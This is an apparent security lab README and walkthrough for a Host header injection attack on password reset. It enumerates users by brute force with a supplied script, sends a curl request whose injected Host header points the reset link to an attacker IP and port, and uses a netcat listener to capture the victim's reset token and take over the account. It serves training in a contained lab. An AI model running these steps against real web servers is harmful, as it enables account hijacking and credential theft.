 # Documentazione

# Goal

The aim of the lab is to exploit the misconfiguration of some web servers that allow an attacker to send a valid reset password email containing a malicious link.

# Readme

The lab is divided into three phases:

1. User Discovery
    
    In this phase you will have to discover a valid user registered to the web server in order to start the recover password procedure using that account.
    
2. Header Injection
    
    You will intercept and edit the recover password request in order to inject the attacker URL; doing so will allow you to send a poisonous email to the victim and if the victim will click on the reset password link you will obtain the unique token identifying the user to reset the password.
    
3. Password Reset
    
    With token you get from the previous step you will be able to change the password of the victim account and gain access to it.
    

If you want to try to solve the lab by yourself there you got some useful informations:

- You can open a virtual browser on the attacker container by reaching [`http://localhost:3000`](http://localhost:3000)
- You can open a shell on the attacker container
- The web server is available at [`http://webserver`](http://webserver) and is only accessible within the intranet, you can use the attacker browser to reach it
- The victim mail client is available at [`http://victim_mail`](http://victim_mail) and is only accessible within the intranet, you can use the attacker browser to reach it

# Solution

The solution will follow the phases described in the documentation.

### User Discovery

This phase consist in discovering a valid user registered to the web server in order to start the recover password procedure using that account.

Using the web server app that is accessible at `http://webserver` you may notice that if you try to login inserting a non existing user, the server will show you an error message saying: “The inserted email do not exist”.

You can use that vulnerability to find a valid user registered to the web server.

The approach that will be used is bruteforcing with a dictionary obtained by sending a lot of POST request with different user email versus the server until you found a valid email. 

You can accomplish this by using a simple python script; luckily for you we already provide a script for doing so, connect with a shell to the attacker machine and reach the `/tools` folder

```bash
cd /tools
```

In it you will find two files:

- `email_dictionary`: a basic dictionary that will save you hours and hours
- `find_email.py`: the script

You can have a detailed look of what the script do and require using:

```bash
python3 find_email.py --help
```

![Tutorial_1.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_1.png?raw=true)

Follow the command to discover a valid user in the lab:

```bash
python3 find_email.py \
--url http://webserver \
--form email \
--message "The inserted email do not exist" \
--dictionary email_dictionary
```

The above command return the `admin123@victimmail.it` email address that we will use as victim.

![Tutorial_2.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_2.png?raw=true)

### Header Injection

In the second phase you will use a web server misconfiguration that allow an attacker to change the “host” parameter contained in header options. The web server during the reset password procedure, will create a link getting the domain from the host field presented in the POST request; normally this field report the server domain (http://webserver) but if an attacker send a post request with a modified host parameter (and the web server do not implement the proper checks) he can send authentic reset email with an arbitrary reset password link.

In order to start the attack you will first need to intercept and block the reset password request;  in order to do that, connect on your browser to [`http://localhost:3000`](http://attacker:3000) to display the attacker container browser. Now with attacker’s browser visit reset password page (navigate to `http://webserver` and press on “Forgot Password”); right clicking wherever in the reset password page will open you a window; select the “Inspect (Q)” and navigate to the “Network“ tab in order to look at all the requests sent from the browser (you may need to refresh the page).

![Tutorial_3.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_3.png?raw=true)

An important tool that firefox browser gives you is the “Block URL” functionality that ask you to specify an IP address to block all requests coming from and to the specified IP allowing you to view and edit all of them. Just insert [`http://webserver`](http://webserver) URL and enable the blocking option:

![Tutorial_4.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_4.png?raw=true)

Now you’re almost ready to launch the attack, in the UI of the page fill the email address with the one that you have obtained in the first phase and click send button.

Firefox will block the sent request and will give you the possibility to copy the query as cURL  (right click on it → Copy Value → Copy as cURL).

![Tutorial_5.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_5.png?raw=true)

Now using a text editor of you choice edit the copied cURL text as follow. 

You need to add a header host filed; you can add any header row by using the `-H` option so in order to inject the malicious host you need to add `-H 'Host: 192.168.1.13:12345'` to the request. The full modified cURL request is then:

```bash
curl -H 'Host: 192.168.1.13:12345' \
'http://webserver/resetpassword?' \
-X POST \
-H 'Content-Type: application/x-www-form-urlencoded' \
--data-raw 'email=admin123@victimmail.it'
```

<aside>
💡 Note that there could be more header option in the original post request, those are not strictly necessary and has been removed in the provided modified cURL.

</aside>

Executing the above command will send a reset mail sent from web server to the admin123@victimmail.it victim email; in the email there will be a malicious link within the reset password button.

Lastly, you have added the “Host:” parameter inserting attackers IP and a custom `12345` port, but in order to receive the token, you need to launch netcat listening on the specified `12345` port using the following in an attacker shell:

```bash
nc -lvnp 12345
```

![Tutorial_6.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_6.png?raw=true)

### Password Reset

You are now going to impersonate the victim that open webmail and click on the reset password link, to do that, open the victim webmail directly from the attacker browser (of course this makes no sense at all but makes the lab easy to use) at `http://victim_mail` 

In the victim mail you will be able to see all the email sent from the web server, if you correctly execute the above phases you should be able to see an email and open it:

![Tutorial_7.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_7.png?raw=true)

As you can see in the mail there is a button with a link, press that button.

Coming back to the attacker shell where you launch netcat you will see the following:

![Tutorial_8.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_8.png?raw=true)

You successfully hijack the reset password request to your machine instead of sending it to the web server; as you can see you obtained the token that allow the web server to identify the user that is requesting the password reset; you can now use it to make the web server believe that you are the victim; just copy the entire URL you see in the request and paste it in the web browser;

![Tutorial_9.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_9.png?raw=true)

Press enter and the web server will allow you to set a new password for the admin123 account.

Note: in order to be able to paste the url in the attacker container browser you may need to use the KASM VNC clipboard utility that is showed as a panel on the left side of the attacker browser.

Create than a password and use it to login with the admin123@victimmail.it email to see if the attack has been successful.

You got it! Victim has been hacked!